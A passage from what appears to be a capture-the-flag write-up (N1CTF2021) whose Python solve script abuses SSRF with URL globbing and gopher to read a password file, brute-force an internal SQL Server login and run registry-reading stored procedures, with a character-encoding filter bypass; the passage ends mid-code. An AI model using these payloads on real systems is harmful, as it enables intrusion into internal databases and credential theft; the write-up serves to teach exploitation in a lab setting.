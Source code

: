 With this, we can now bruteforce for passwords in SQL Server.

As already described in the hint, it is possible to retrieve the secret information by reading registry. so executing `master.sys.xp_regenumvalues` will populate the flag.

```python
import os
import requests

def leak_password():
    """ Leaks the content of file:///password.txt """
    hash = "7b3ba344-2974-c748-8558-102060de0902"
    d = {
        "url": "fi[j-m]e:///{password.txt,"+hash+"}"
    }
    h = {
        "Cookie": "PHPSESSID=rhi443hsuiglkntgqf7vgdpf8l",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    # print(requests.post("https://fo.ax/f.php",  data=d, headers=h).text)
    r = requests.post("http://129.226.12.144/index.php", headers=h, data=d)
    print(r.headers)
    return r.text

def ssrf_bruteforce():
    """ Bruteforce for the password """
    # Password is 32367d71-af9b-4996-852f-f5566c13971a

    password_list = []
    with open("password.txt", "r") as f:
        password_list = [i.strip() for i in f.read().split() if i]

    for password in password_list:
        _res = os.popen(f"php gen_payload.php {password} \"SELECT 'ASDFASDF'\"").read()
        # This is to bypass the l, g
        _res = _res.replace("l", "%6C").replace("g", "%67")
        _res = _res.replace("L", "%4C").replace("G", "%47")

        hash = "7b3ba344-2974-c748-8558-102060de0902"
        d = {"url": "[f-h]opher://10.11.22.9:1433/A{"+_res+","+hash+"}"}
        h = {
            "Cookie": "PHPSESSID=rhi443hsuiglkntgqf7vgdpf8l",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        r = requests.post("http://129.226.12.144/index.php", headers=h, data=d)
        print(r.headers)
        t = r.text
        # Check if invalid authentication message does not exist
        if "\x00\x69\x00\x6c\x00\x65\x00\x64\x00\x20\x00\x66\x00\x6f\x00\x72" not in t:
            print(">>>>>>>>>" + password)
            exit(0)

def ssrf_run_cmd():
    password = "32367d71-af9b-4996-852f-f5566c13971a"
    _res = os.popen(f"php gen_payload.php {password} \"EXECUTE master.sys.xp_regenumvalues 'HKEY_LOCAL_MACHINE','Software\\N1CTF2021'\"").read()
    #  _res = os.popen(f"php gen_payload.php {password} \"EXECUTE master.sys.xp_regread 'AAAAAAAAAAAAAAAAAAAAA'\"").read()
    # This is to bypass the l, g
    _res = _res.replace("l", "%6C").replace("g", "%67")
    _res = _res.replace("L", "%4C").replace("G", "%47")

    hash = "7b3ba344-2974-c748-8558-102060de0902"
    d = {"url": "[f-h]opher://10.11.22.9:1433/A{"+_res+","+hash+"}"}
    h = {
```